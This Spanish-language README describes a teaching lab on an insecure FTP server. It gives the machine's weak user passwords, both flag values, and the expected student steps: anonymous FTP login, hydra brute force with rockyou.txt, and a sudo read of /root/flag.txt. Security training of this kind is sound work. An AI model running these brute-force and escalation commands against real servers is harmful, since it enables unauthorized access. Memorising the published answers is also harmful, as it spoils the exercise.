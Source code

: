 # Laboratorio FTP y Fuerza Bruta

Este laboratorio permite a los estudiantes aplicar técnicas de fuerza bruta y escalada de privilegios en un entorno realista. El objetivo es acceder a un servidor FTP con configuración insegura y obtener dos flags ocultas en el sistema, de esta forma los alumnos lograran comprender:


- Cómo funciona un servidor FTP y el acceso anónimo.
- Utilizar fuerza bruta de contraseñas con la herramienta `hydra`.
- Leer pistas escondidas en archivos accesibles por FTP.
- Conectarse como usuario descubierto mediante diccionario.
- Escalar privilegios en un sistema Linux para acceder como `root`.


## Especificaciones de la maquina

- **Sistema operativo**: Ubuntu Server (sin interfaz gráfica)
- **Servicio activo**: `vsftpd` en el puerto 21
- **Acceso anónimo** habilitado: `/home/ftp/anonymous/IMPORTANT`
- **Usuarios vulnerables**:
  - `james` → contraseña: `superman`
  - `caroline` → contraseña: `babygirl`
- **Privilegios**:
  - `caroline` pertenece al grupo `sudo`
- **Flags del reto**:
  - `/home/james/flag.txt`:  
    `4GEEKS{C0ngr4tul4t10ns_4_UR_F1R5T_FL4G!!!}`
  - `/root/flag.txt`:  
    `4GEEKS{C4R0L1N3_N33D5_A_B3TT3R_P455W0RD!!!}`

### Credenciales de la maquina

```bash
servername: ftp-lab
username: student
password: 4geeks-lab
```

## Pasos esperados por parte del alumno

1. **Conectarse como usuario anónimo vía FTP**:

   ```bash
   ftp <IP_VM>
   ```

2. **Leer el archivo instructions.txt en `/IMPORTANT`**: El archivo sugiere que los usuarios james y caroline deben cambiar sus contraseñas. 

3. **Realizar fuerza bruta con hydra y `rockyou.txt`**:

   ```bash
   hydra -l james -P /usr/share/wordlists/rockyou.txt ftp://<IP_VM>
   hydra -l caroline -P /usr/share/wordlists/rockyou.txt ftp://<IP_VM>
   ```

4. **Conectarse como james vía FTP y recuperar la primera flag**:

   ```bash
   ftp <IP_VM>
   # login: james
   # password: superman
   ```

   ```bash
   get flag.txt
   ```

5. **Conectarse como caroline (por SSH o FTP)**

6. **Escalar privilegios para leer la segunda flag**:

   ```bash
   sudo cat /root/flag.txt
   ```